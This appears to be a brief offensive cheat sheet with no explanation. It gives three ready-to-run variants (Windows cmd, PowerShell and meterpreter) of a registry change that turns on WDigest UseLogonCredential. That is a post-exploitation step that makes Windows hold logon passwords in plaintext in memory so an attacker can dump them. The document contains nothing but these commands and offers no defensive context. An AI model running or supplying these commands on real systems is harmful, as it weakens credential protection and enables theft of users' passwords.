 ### Cmd
	>reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
### powershell
	>Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
### meterpreter
	>reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCredential -t REG_DWORD -d 1